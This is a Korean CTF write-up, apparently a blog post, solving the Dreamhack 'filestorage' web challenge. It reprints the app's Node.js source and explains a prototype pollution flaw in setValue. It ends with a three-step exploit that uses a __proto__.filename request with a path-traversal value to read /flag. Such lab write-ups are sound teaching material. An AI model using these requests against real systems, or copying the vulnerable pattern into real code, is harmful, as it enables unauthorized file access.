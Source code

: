 ```yaml
---
layout: single
title: "[Dreamhack] filestorage write-up"
date: 2025-09-02 20:05 +0900
categories: 
    - WEB-write-up
tag:
typora-root-url: ../
toc: true
toc_sticky: true
toc_label: 목차
author_profile: true
comment: true
sidebar:
    nav: "docs"
---
```


## [Dreamhack] filestorage

### 😁 문제 설명

- 파일을 관리할 수 있는 구현이 덜 된 홈페이지입니다.

<br>

### ✏️ 풀이

```javascript
var file={};
var read={};
function isObject(obj) {
  return obj !== null && typeof obj === 'object';
}
function setValue(obj, key, value) {
  const keylist = key.split('.');
  const e = keylist.shift();
  if (keylist.length > 0) {
    if (!isObject(obj[e])) obj[e] = {};
    setValue(obj[e], keylist.join('.'), value);
  } else {
    obj[key] = value;
    return obj;
  }
}

app.use(bodyParser.urlencoded({ extended: false }));
app.set('view engine','ejs');


app.get('/',function(req,resp){
	read['filename']='fake';
	resp.render(__dirname+"/ejs/index.ejs");

})

app.post('/mkfile',function(req,resp){
	let {filename,content}=req.body;
	filename=hash(filename).toString();
	fs.writeFile(__dirname+"/storage/"+filename,content,function(err){
		if(err==null){
			file[filename]=filename;
			resp.send('your file name is '+filename);
		}else{
			resp.write("<script>alert('error')</script>");
			resp.write("<script>window.location='/'</script>");
		}
	})

})

app.get('/readfile',function(req,resp){
	let filename=file[req.query.filename];
	if(filename==null){
		fs.readFile(__dirname+'/storage/'+read['filename'],'UTF-8',function(err,data){
			resp.send(data);
		})
	}else{
		read[filename]=filename.replaceAll('.','');
		fs.readFile(__dirname+'/storage/'+read[filename],'UTF-8',function(err,data){
			if(err==null){
				resp.send(data);
			}else{
				resp.send('file is not existed');
			}
		})
	}

})

app.get('/test',function(req,resp){
	let {func,filename,rename}=req.query;
	if(func==null){
		resp.send("this page hasn't been made yet");
	}else if(func=='rename'){
		setValue(file,filename,rename)
		resp.send('rename');
	}else if(func=='reset'){
		read={};
		resp.send("file reset");
	}
})


app.listen(8000);
```

<br>

문제에 접속하면 아래와 같이 파일 이름과 파일 내용을 입력할 수 있는 폼이 존재한다.

![image-20250902213449908](/images/2025-09-02-filestorage/image-20250902213449908.png)

<br>

아래 전송되는 소스코드를 보면 filename이 hash 함수를 거쳐 /readfile 경로에서 filename 파라미터를 통해 읽어올 수 있는 것을 알 수 있다.

```javascript
app.post('/mkfile',function(req,resp){
	let {filename,content}=req.body;
	filename=hash(filename).toString();
	fs.writeFile(__dirname+"/storage/"+filename,content,function(err){
		if(err==null){
			file[filename]=filename;
			resp.send('your file name is '+filename);
		}else{
			resp.write("<script>alert('error')</script>");
			resp.write("<script>window.location='/'</script>");
		}
	})

})

app.get('/readfile',function(req,resp){
	let filename=file[req.query.filename];
	if(filename==null){
		fs.readFile(__dirname+'/storage/'+read['filename'],'UTF-8',function(err,data){
			resp.send(data);
		})
	}else{
		read[filename]=filename.replaceAll('.','');
		fs.readFile(__dirname+'/storage/'+read[filename],'UTF-8',function(err,data){
			if(err==null){
				resp.send(data);
			}else{
				resp.send('file is not existed');
			}
		})
	}

})
```

<br>

아래처럼 xss 페이로드를 넣어 테스트 해보면 Stored XSS 취약점이 존재한다는 것도 알 수 있다. 하지만 이 문제는 prototype pollution 취약점이 존재한다.

![image-20250902213644699](/images/2025-09-02-filestorage/image-20250902213644699.png)

![image-20250902213700847](/images/2025-09-02-filestorage/image-20250902213700847.png)

![image-20250902213738343](/images/2025-09-02-filestorage/image-20250902213738343.png)

<br>

아래 setValue 함수를 살펴보면 prototype pollution 취약점이 존재한다. key 인자에 `__proto__`, `prototype`, `constructor`같은 값을 넣을 수 있다.

```javascript 
function setValue(obj, key, value) {
  const keylist = key.split('.');
  const e = keylist.shift();
  if (keylist.length > 0) {
    if (!isObject(obj[e])) obj[e] = {};
    setValue(obj[e], keylist.join('.'), value);
  } else {
    obj[key] = value;
    return obj;
  }
}
```

<br>

/test 경로에서는 `setValue` 함수를 사용하는 곳이 func 파라미터가 rename일 때 setValue를 사용한다. 따라서 `/test?func=rename&filename=__proto__.filename&rename=../../../../../flag`로 요청해주면 rename 응답이 오는 것을 알 수 있다. 

```javascript
app.get('/test',function(req,resp){
	let {func,filename,rename}=req.query;
	if(func==null){
		resp.send("this page hasn't been made yet");
	}else if(func=='rename'){
		setValue(file,filename,rename)
		resp.send('rename');
	}else if(func=='reset'){
		read={};
		resp.send("file reset");
	}
})
```

<br>

아래 dockerfile을 보면 flag 임의값이 /flag에 저장되어 있는데 /readfile에 filename 파라미터값을 주지 않으면 BISC{fake flag} 값이 나온다. 또한 아래 readfile[filename]이라는 값이 두 번째 분기로 가면 `.`을 삭제하고 있기 때문에 /readfile 경로에서 파라미터값을 주면 안된다는 것을 알 수 있다.

```dockerfile
RUN echo 'BISC{fake flag}' > /flag
```

```javascript
app.get('/readfile',function(req,resp){
	let filename=file[req.query.filename];
	if(filename==null){
		fs.readFile(__dirname+'/storage/'+read['filename'],'UTF-8',function(err,data){
			resp.send(data);
		})
	}else{
		read[filename]=filename.replaceAll('.','');
		fs.readFile(__dirname+'/storage/'+read[filename],'UTF-8',function(err,data){
			if(err==null){
				resp.send(data);
			}else{
				resp.send('file is not existed');
			}
		})
	}

})
```

<br>

따라서 익스플로잇 하는 과정은 아래와 같다. reset 값을 통해 fake 값을 지워주고, /flag 값을 읽어야 /readfile 경로에 들어가서 flag 값을 읽을 수 있기 때문이다.

```test
1. /test?func=rename&filename=__proto__.filename&rename=../../../../../flag

2. /test?func=reset

3. /readfile
```

